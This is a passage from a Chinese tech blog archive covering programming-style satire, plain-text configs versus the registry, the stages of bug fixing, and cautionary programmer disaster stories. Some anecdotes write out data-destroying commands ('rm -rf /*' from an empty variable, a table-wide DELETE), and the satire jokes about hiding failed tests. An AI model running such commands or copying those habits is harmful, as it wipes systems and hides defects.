正如这种编程的名字所说的，这种编程风格使用大量的设计模式，在你的程序中，四处都是设计模式，你的代码到处都是Facade，Observer ，Strategy，Adapter，等等等等。于是，你的程序要处理的业务逻辑被这些设计模式打乱得无法阅读，最后，也不知道是业务需求重来，还是设计模式重要，总之，实际业务需求的程序逻辑被各种设计模式混乱得不堪入目。

#### 侦探型编程

在解决一个Bug的时候，侦探型程序员会调查这个Bug的原因。然后，则调查引发这个BUG的原因的原因。再然后，其会分析修正代码后是否会导致其它代码失败的因果关系。再然后然后，他会使用文本搜索查找所有使用这个改动的代码，并继续查找更上一级的调用代码。最后，这个程序员会写下30个不同的情形的测试案例，就算这些测试案例和那个Bug没有什么关系，最最后，这个程序员有了足够多的信心，并且精确地修正了一个拼写错误。

与此同时，其它一个正常的程序修正了其它5个Bug。

#### 屠宰式编程

使用这种风格的程序员，对重构代码有着一种难以控制的极端冲动。他们几乎会重构所有经手的代码。就算是在产品在Release的前夜，当他在修正几个拼写错误的bug同时，其会修改10个类，以及重构与这10个类有联系的另20个类，并且修改了代码的build脚本，以及5个部署描述符。

文章：[来源](http://www.codeinstructions.com/2008/10/styles-of-programming.html)
（全文完）

# 纯文本配置还是注册表

#####  [2011年03月28日 ](https://coolshell.cn/articles/4077.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [62 条评论](https://coolshell.cn/articles/4077.html#comments) 31,362 人阅读

我们知道Unix/Linux下的程序配置文件从来都是纯文本的，你可以自由地修改和查看，他们也没有什么什么XML之类的玩意（参看XML的这两篇文章：[一](https://coolshell.cn/articles/2504.html)，[二](https://coolshell.cn/articles/3498.html)），这个最重要的Unix文化（参看[Unix传奇下篇](https://coolshell.cn/articles/2324.html)）40多年来就这么沿续下来了。我很佩服Microsoft的创新能力，一会儿用INI，一会儿用注册表，一会又是用XML，这就是[Windows的编程中那“强大”的创新](https://coolshell.cn/articles/3008.html)。在网上又看到有人在争论为什么用注册表而不是纯文本，所以，写下这篇文章。

目录


[引入注册表所谓的原因](https://coolshell.cn/articles/4077.html#引入注册表所谓的原因)[我的观点](https://coolshell.cn/articles/4077.html#我的观点)[纯文本配置文件的好处](https://coolshell.cn/articles/4077.html#纯文本配置文件的好处)[真正的原因](https://coolshell.cn/articles/4077.html#真正的原因)

#### 引入注册表所谓的原因

首先，让我们来看一下为什么微软觉得要使用注册表而不是ini文件，下面是一些其列出来的ini方面的毛病：

- ini文件不支持Unicode
- ini文件的安全权限不够
- ini文件在多进程下存取会有问题
- 如果一个进程锁上了这个文件，另一个进程就无法获得，只能出错。
- ini文件只能包含字符串，无法使用二进制
- 解析ini文件相对来说性能比较慢，第一次读写都需要把整个文件读入内存，然后再写回去。
- ini文件最大只有32K
- ini文件的默认目录在Windows系统目录下，只能这个目录只能Windows管理员才能访问
- ini只能包含了两层，对于多层不支持。
- 把ini文件放在中央服务器上管理很困难。

而微软说，注册表可以完美地解决这些问题。居然微软只说到了ini文件，但我觉得不单单是ini，所有的以纯文本方式保存配置文件的方法都会出现上述这样的问题。

#### 我的观点

那么，当你在看到这些言论时，你是怎么想的？你有没有经过自己的独立思考？还是你觉得注册表完美地解决了所有的一切？下面是我的一些观点：


- 首先，我们要知道没有任何一件事是完美的，凡事必然有好的一面，也有不好的一面。
- 其次，当我们在改进一个东西时，不单单要解决其不好的东西，还要把其好的东西给传承下来。

所以，当你看到一些只说好或是只说坏的东西时，这往往意味着“宗教”或“洗脑”，这正是需要你独立思考的时候。

#### 纯文本配置文件的好处

下面，是我觉得纯文本配置文件的好处（我用Unix下的纯文本配置文件来举例）：

- 很容易进行版本管理（配置文件和程序代码一样都需要版本控制）
- 很容易移植到别的平台
- 很容易自定义文本文件的格式和语法，已也有相关的库支持（ini只支持ANSI字符，只有32K，只支持两级，那是ini的问题，解决这些问题不需要引入注册表）
- 可以在配置文本中写注释信息
- 你要很容易的使用grep，awk，sed等等以及来和脚本集成。
- 你可以很容易地拆分配置文件把其放到conf.d中，这样一来，你就非常灵活
  - 你就不用整个文件都读入内存，
  - 你也可以分别设置上不同的存取权限，
  - 同样可以减小多个进程同时存取的问题
  - 同样可以引用别的二进制配置的文件
- 你可以很容易地产生备份或是在不同的配置中来回地切换配置文件以进行调试。
- 你可以很容易地使用rsync来向中央服务器同步你的配置文件。或者使用NFS/NIS直接就把配置放在中央服务器上。

#### 真正的原因

可见，Windows 的注册表并没有把纯文本配置文件的这些好处都带过来，所以，经过这样的独立思考，我们可以知道，微软引入注册表的真正原因是——

- 让你的程序不具移植性，让你的软件永远运行在Windows上。
- 增加你编程的复杂度和你维护配置文件的复杂度，让你在痛苦之后，苦苦哀求微软再发布下一个“创新”。

各位程序员——Windows是很危险的，你们还是回火星去吧。

（**全文完，转载时请注明作者和出处**）

# FIX BUG的五个阶段

#####  [2011年03月24日 ](https://coolshell.cn/articles/4045.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [35 条评论](https://coolshell.cn/articles/4045.html#comments) 19,947 人阅读

下面的文章和《[各种流行的编程方式](https://coolshell.cn/articles/2058.html)》有异曲同工，请你不要理解错了。**[本文来源](http://crankypm.com/2011/03/guest-post-stages-debugging/?utm_source=feedburner&utm_medium=feed&utm_campaign=Feed:+TheCrankyProductManager+(The+Cranky+Product+Manager))**，翻译如下：

——————————————————

一个非常严重和困难的bug，能够成就一个饱经沧桑深受压力的有经验的专业程序员的职业生涯。经受这种考验的创伤程度，相当你受到了一次严重的身体伤害，离婚，或是家庭成为的离世。

研究人员在研究了计算机编程心理学后，得出了一个程序员们在解决一个困难的bug时的心路里程。这些不同的境界，很像为大众所知的[Kübler-Ross Stages of Grief](http://en.wikipedia.org/wiki/Kübler-Ross_model)（这个模型描述了人对待哀伤与灾难过程中的5个独立阶段（否认，愤怒，耍赖，抑郁，接受）。绝症患者被认为会经历这些阶段），而且原因都很相似。就好像死亡所伴随的悲伤一样，fix一个bug是一个过程其初始化了一个事件，一开始是拒绝相信，其造就了你苦闷的情绪并开始逐步影响你的心智。这种苦闷的情结果会让你纠结要努力忍受，最终会你会找到一个满意的结果。

了解下面这几个bug-fixing的阶段，会让我们更好的生存下来，并持之以恒，最终带来……关闭我们所有的bug的结果。

## 第一阶段：抵触

本阶段的状态: 多疑 Skeptical. 生气 Offended. 易怒 Petulant.

**1. 不理睬**

也许这个bug会安静地离开。

**2. 标记上“不是bug”**

也许这是用户的错，或是本地配置有问题。是的，我确信就是那样，一会就会好的。


**3. 就是一次小故障**

我想这就是一次小故障，很奇怪地发生了一次，它不会再发生的，虽然没有搞清楚是为什么发生了，不过这就好像我们的数据库，网格，浏览器或别的什么打了几个嗝一样。一会就会好的，我确信。

**4. 躲藏.**

我要休几天病假，也许他们会把这个bug转给别人的。

**5. 标记为“修改需求中”**

你看，我是按照需求实现的。如果你们想要改这个行为和UI，就一定要修改需求。也许他们会决定就这样了。

**6. 需要更多的信息**

我不能确定这是一个bug，除非我能在错误日志中看到一条特定的报错信息。

**7. 转给其他人**

我调查这个bug中看到了其它模块中我看不懂的数据，问题很大。我应该把这个bug转给开发那个模块的人。我可以在我的模块中检查一下那个边边角角的情况，但是正确的fix应该是在别人的模块中。反正那个在别的国家，我见不着他。

## 第二阶段：接受

本阶段的状态: 认命 Resigned. 被打击 Defeated. 被激怒 Annoyed.

**1. 接受现实**

行了，行了，行了！这是我的bug，我会修正它的。

**2. 把这个bug放到最后**

也许，我可以在我需要fix这个bug之前找到一个新的工作。

**3. 和你的经理讨价还价**

好的，你看，我可以正确地fix这个问题，不过我需要一个月。也就是说，我可以给这个问题贴个创可贴，那不会真正的解决它，但是我们可以避免用户的抱怨，这可以为我们赢得几天的时间。

**4. 为这个bug标记一个无耻的时间**

上帝啊，我希望这时间够了。

## 第三阶段： 投入和沮丧

本阶段的状态: 眼花 Giddy. 头晕 Light-headed. 紧张 Nauseous.

**1. 开始调查**

我能搞定它，我能搞定它！只需要小小的调整一下，小小的关注一下，多一点咖啡因，再加上一点时间，我能搞定它。

**2. 迷惘**

Shit. 这太扯了。我居然没有一点进展。这代码真是乱。这样的代码居然能编译和运行，真TMD的神奇，我有机会能搞清楚它什么不正常吗？

**3. 再次躲藏**

你看，很对不起。我不得不要去切除我的阑尾。再一次，是的，既然你提到了它，我的确有两个阑尾。现在我一个也没有了，你高兴了吧？。

**4. 犯贱**

好吧，总之，你到底期望什么？想让我在一个没有高级调试器的环境下改这个BUG。我是什么？千里眼吗？我在我的[Commodore 64](http://en.wikipedia.org/wiki/Commodore_64)上一个更好的调试器！

**5. 瞎搞**

看看我试试这么改？Kao，这样不行。要不然这样搞？也不行。那么那样搞呢？Shit，居然变得更糟了。

**6. 绝望**

我不可能fix这个bug了。我是个糟糕的程序员。我太笨了。我在这个满是聪明人的地方干什么？迟早他们会知道我的能力太差，那时我就玩完了，在这也混不下去了。

**7.耻辱**

我的经理问我为什么我用了一个月的时候来fix这个只需要两天就可以解决的bug？老实说，我不知道怎么去读日志信息，我搞坏了我们的编译脚本。现在，我不敢去让别人来帮我，因为这样只会让我显得更愚蠢。

**8. 恐慌！**

这事变得比我相像的要复杂！而我开始觉得复杂的事变得简单……而我觉得简单的事变成需要重定半打的类。为什么我以前在我的经理前拍着胸说我可以搞定这个事？

**9. 通宵工作，远离朋友和家人**

(语无论次的喃喃自语，一阵一阵地大声咒骂)

## 第四个阶段：愚蠢的快感

本阶段的状态: 感恩 Grateful. 安心 Relieved. 极端地自我欣赏 Awfully Impressed with Yourself.

**1. 醒悟**

哦！我终于明白怎么搞定它了……

**2. 写正确的代码**

我真NB，我是编码机器！

**3. 测试**

牛！通过一个测试。真牛！又通过一个测试了。靠！有测试失败了。这是为什么……

**4. 隐藏测试失败**

反正这完全是一个不重要的测试案例。没有人会检查它，这个测试真是毫无意义。

**5. 提交代码**

我太牛了，厨房里有个馅饼可以庆祝一下吗？

**6. 关闭 bug.**

我听说那里有个馅饼可以庆祝一下

## 第五个阶段： 与“完成”肉搏

本阶段的状态: 焦燥不安 Twitchy. 神经过敏 Nervous. 迷信 Superstitious.

**1. 有人reopen了这个 Bug**

真的？他们发现了你引入了另一个bug？ Shit – 那只是一个不重要的案例永远不会发生的。

**2. 修正以前的修正**

是的，我甚至检查了员工的年龄是一个虚数的情况，就是为了防止出错。

**3. 关闭 bug**

是的，贱货，你被关闭了。全部都关了，再也不用心烦了。

**4. 发誓以后再也不干这种事了**

**5. 大家都意识到你现在是那个模块的专家了**

哦，不！现在他们又给了我三个那个模块的新bug

没关系，现在你只需要GOTO 第一个阶段。

此外，作为一个工作中的程序员，你会永远经历这些烂事，直到你——死亡，退休，或是被升到管理层。

（全文完）

# 程序员那些悲催的事儿

#####  [2011年03月22日 ](https://coolshell.cn/articles/3980.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [125 条评论](https://coolshell.cn/articles/3980.html#comments) 92,568 人阅读

在StakeOverflow上有这样一个贴子叫“[Confessions of your worst WTF moment](http://stackoverflow.com/questions/63668/confessions-of-your-worst-wtf-moment)”（WTF就是What the fuck的缩写），挺有意思的，我摘几个小故事过来，希望大家在笑过之后能从中学到什么——**所有的经验都是从错误中来的**（我在其中加了一些点评）

> 我们公司的软件是给警察局用的，那是一个对用来处理被逮捕的人的系统，此系统还需要收集脸部特征和指纹信息，并且，这个系统和会向FBI的系统提交这些信息。当我们在测试这个系统的时候，我们一般都是用我们自己的指纹，当然，数据库联着的是我们的测试数据库。不过，有一次，在我们测试完后，我们忘了把系统切换回生产库，于是我们的测试数据库就联上了生产环境，于是我们的指纹信息和照片就散布到了其它系统中……清除我们警察局这边的还好办，但是，你需要波士顿警察局警司去法院签字才能从FBI的数据库中清除我们的信息。

**点评**：测试环境和生产环境的数据不要混在一起。

> 有一次，我需要向新系统中导入一堆数据，因为数据量太大，需要5个小时，只能在夜里来干，在系统需要正式使用前2个小时，数据导完了，此时是凌晨4点。随后，我需要删除一些数据，于是我在SQL命令地上输入了“DELETE from important_table; where id=4”。是的，我没有看到哪里还有个分号，天啊。

**点评**：这就是加班工作的恶果。另，在delete之前最好先做一次select。

> 我把我的管理员口令提交到了一个开源软件的源码里。

**点评：**1）版本管理器里的东西是删不掉的。2）一些用户和口令要hard code在代码里，所以，不要混用代码使用的权限和管理员的权限，小心管理程序的运行权限，为其注册专门的用户。


> 我为一个很大的银行开发软件，在我的代码里，我为一段理论上根本不可能执行到的代码加了一个报错信息。有一天，不可思异的事发生了，这条报错信息显示在了该银行的1800个分行的超过10000个终端上——“如果你看到这个信息，说明整个系统被Fuck了，回家吧，祝你过得愉快！”

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=2455527970&amp;adf=3105325361&amp;pi=t.aa~a.425447425~i.17~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684220638&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3980.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xlFJ90RxU_EuQaDFFbVUlO8xAB-FQnFbv0CT69mL_zs1leJP3i7z38uF2884i2WoYBG60Zw&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225739184&amp;bpp=1&amp;bdt=3086&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764&amp;nras=4&amp;correlator=2475944030841&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=868705346&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1806&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31071755%2C31074635%2C44772269%2C44785295%2C44788441%2C44790154&amp;oid=2&amp;psts=ABHeCvjW1cTNBFhQxsKy_MMnsO7OtYHPNEDampATATh2iFJsgzRf6cLjHgAfXcKDpAyi6NU27aKrXAOkYSk8&amp;pvsid=2406559308532425&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F29&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=e25dIjBX2X&amp;p=https%3A//coolshell.cn&amp;dtd=5585" data-google-container-id="a!3" data-google-query-id="CLzv5em1-f4CFUTH5wMdJkcCHw" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

**点评：“**假设是恶魔”，Assume意为Ass – u – me，意为——搞砸你和我。对于一些关键东西，永远不要做假设。小心你言语中的——“可能、应该、觉得、不应该”等词语，程序可不认这些东西。

> 我远程登录到服务器上加几个防火墙规则。第一件我想干的事是在不允许任何人的任何连接，第二件是，为某个端口打开访问权限。不过，我在做完第一件事后就把配置保存了，结果其生效了……

**点评**：这样的事经常发生，做远程网络管理的人多少会有那么几次发生这样的错误。在你将你的网络配置生效前，你得想一想，断线了你是否还能登得上去。改配置不要太冲动，生效前检查几次。

<iframe id="aswift_3" name="aswift_3" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=2455527970&amp;adf=1343023881&amp;pi=t.aa~a.425447425~i.23~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684220638&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3980.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xlFJ90RxU_EuQaDFFbVUlO8xAB-FQnFbv0CT69mL_zs1leJP3i7z38uF2884i2WoYBG60Zw&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225739193&amp;bpp=1&amp;bdt=3095&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280&amp;nras=5&amp;correlator=2475944030841&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=868705346&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=2473&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31071755%2C31074635%2C44772269%2C44785295%2C44788441%2C44790154&amp;oid=2&amp;psts=ABHeCvjW1cTNBFhQxsKy_MMnsO7OtYHPNEDampATATh2iFJsgzRf6cLjHgAfXcKDpAyi6NU27aKrXAOkYSk8&amp;pvsid=2406559308532425&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F29&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=4&amp;uci=a!4&amp;btvi=2&amp;fsb=1&amp;xpc=tmrD29FQgd&amp;p=https%3A//coolshell.cn&amp;dtd=5616" data-google-container-id="a!4" data-google-query-id="CImx5-m1-f4CFR4HdgYd51IHog" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

> 我们的代码中有一个模块完美地工作了很多年了，只是代码太乱了。我说服了我的老板，我可以重写这个模块，于是我花了三个星期来重写这个模块。今天 ，我还记得，我的老板站在我的后面看着我，而我在在流着斗大的法汗珠去fix被我重写的“超级漂亮”的那个模块中一个接一个的bug。从那以后，我再也不重写代码了，除非有重大的利益。

**点评：**这就所谓的[屠宰式编程](https://coolshell.cn/articles/2058.html)。这个案例告诉我们两个道理，1）维护代码要用最最最保守的方法来进行。2）重构代码前要像一个商人一样学会计算利益。当然，[ThoughtWorks的咨询师](https://coolshell.cn/articles/3745.html)一定会告诉你TDD，结对，极限等等方法告诉你如果实践重构。但我想告诉你，一个程序在生产环境里运行好几个年能没有问题是一件很不容易的事，那怕其中的代码再烂，你再看不过去，你都要有一个清醒的头脑明白这几点，**1）软件的运行质量是远远大于代码质量的，2）你的测试案例是远远小于生产环境的，3）软件的完美的质量，是靠长时间的运行、测试和错误堆出来的，而不是某种方法论**。

————————————————

相信大家做程序员这一生中也有很多发生在自己身上的悲催的事儿，欢迎分享。我先分享几个我亲身经历过的事。

一个发生在我的领导身上。

> 我98年刚参加工作的时候，在某单位网络部门，一次，我们整个部门去给下属单位培训Cisco路由器，结果我们发现带去培训地点的设备少带了集线器HUB，设备连不起来。于是领导很不高兴，质问我们为什么没有带集线器？那几个对领导平时就不满的老员工说办公室里没有集线器了，都借给别的部门了。领导想了想，问我：“陈皓，我记得上次我给过你个集线器”，我说，“好像没有吧，我记不起来了，什么牌的？几口的？”，领导说：“什么牌子想不起来了，不过我记得那个集线器是**一个口**的”。“一个口的？！”，我心里嘀咕着，“真敢说啊”。但我不敢接话了。那几个老员工来劲了——“哪有一个口的HUB啊，一个口的怎么联两台电脑啊？”，领导说：“用两个一个口的不就行了”。领导这话一出，全场一片寂静，无言以对……

**后来：**我们所有的组员都离开了我们的这个领导，我们的这个领导今天还在那里工作。我想告诉大家，**很多时候该走的是领导**（包括外企，我上一东家正在裁人，不过我觉得该被裁掉的应该是那些经理）。我们的领导经常出这样或那样的笑话，这让我随时随地地警醒自己——“**不要当一个被人笑话的经理**”，于是，今天我还在努力地学习技术。

另一个发生在我身上

> 刚刚接触Linux的时候，还不是很懂，那时的PC还只有奔3，编译公司的程序好慢啊，有时候为了调查一个问题，需要不断地打log，来来回回地编译，很不爽。直到有一天，硬盘不够了，df一下，发现/dev/shm还有空间。于是，把全部程序copy了过去，发现编译起程序超快无比，爽得不行。于是就把工作环境放在/dev/shm下了，连开发都放在这里了。这一天，开发一个功能，改了十来个文件，加班很晚，觉得基本搞定，大喜，回家睡觉。第二天一来，发现/dev/shm下空了，一个文件都没有了，问同事，同事不知，同事还安慰我说，上次他的文件也不知道被 谁删了，于是我大怒，告老板！老板也怒，发邮件到整个公司质问大家谁删了陈皓的程序，无人应答。IT部门答，“昨晚唯一的操作就是重启了linux服务器，什么也没干，不过我们天天备份服务器，可以恢复”，IT部门问我丢的文件在哪个目录下？于是，我reply to all – “在/dev/shm下……”，哎，人丢大发了……

**后来：**我很感谢我以前犯的这个错，从那天以后，我开始立志学好Linux，这个错误让我努力，让我发奋。所以，我想告诉大家——**尤其是刚出道的程序员，你们要多多犯错，要犯错那种丢死人的错，这样你才会知耻而勇**。

再来一个发生在我同事身上的

> 01年，我们开发银行系统，在AIX上开发，RICS6000很贵，只能在客户那里开发，开发进度很紧张，慢慢地硬盘就不够用了，系统中有大量的垃圾文件，于是需要清除一些文件，于是有一个同事写了一个脚本，可以自动清除的各种不重要的文件，里面有一条命令大致是这个样子“ rm -rf ${app_log_dir}/*”，意为清除程序运行的日志。为了使用这个脚本，需要在root用户下运行，一开始还不错。直到有一天，某人一运行，整个根就没了。搞得整个团队只能用一周前的备份重写已写好的代码。后来，才发现原因是${app_log_dir}变量为空，于是成了“rm -rf /*”……

**后来：**这个事后，我的那个同事，把rm命令改了名，并自己写了一个rm命令，把删除的文件先放到一个临时目录下。而我也因为这个事情，到今天，每次当我在root目录下使用rm时，敲击回车的手都是抖的。（另，rm时永远使用绝对路径）这里，我想告诉大家——**犯错不可怕，可怕的是不会从中总结教训，同一个错犯两次**。

欢迎分享发生在你身上那些悲催的事。

# “火柴棍式”程序员面试题

#####  [2011年03月21日 ](https://coolshell.cn/articles/3961.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [2,728 条评论](https://coolshell.cn/articles/3961.html#comments) 2,356,526 人阅读

有时候，有些面试题是很是无厘头，这不，又有一个，还记得小时候玩的的“火柴棍游戏”吗，就是移动一根火柴棍改变一个图或字的游戏。程序面试居然也可以这么玩，看看下面这个火柴棍式的程序面试题吧。

下面是一个C程序，其想要输出20个减号，不过，粗心的程序员把代码写错了，你需要把下面的代码修改正确，不过，**你只能增加或是修改其中的一个字符**，请你给出三种答案。

**int** n = 20;

**for**(**int** i = 0; i < n; i--){

​    printf("-");

}

<iframe id="aswift_4" name="aswift_4" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=819697741&amp;adf=414167629&amp;pi=t.aa~a.425447425~i.5~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684225753&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3961.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xuHdZIikU9EGYOYCggifwySzs3QHBcU5U-LtnyZNjshgUbeWbsqHrtR5sXxFN5PDEb3ggTc&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225759936&amp;bpp=2&amp;bdt=5235&amp;idt=2&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C728x90&amp;nras=5&amp;correlator=7207738672107&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=2093664662&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1072&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074635%2C44785292%2C44788442%2C44790154&amp;oid=2&amp;psts=ABHeCvigHN1X8UrmmIk0-oVERvOpPXyy54X9lURd64Wy22eJL874q1CBoqLC6p6R4z13L9Fi4rtEzuk77ygd&amp;pvsid=3318438438435949&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F29&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=5&amp;uci=a!5&amp;btvi=2&amp;fsb=1&amp;xpc=CpXavDEjgQ&amp;p=https%3A//coolshell.cn&amp;dtd=11745" data-google-container-id="a!5" data-google-query-id="CIvy0Pa1-f4CFXEmrQYd6UgCwA" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

<iframe id="aswift_5" name="aswift_5" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" 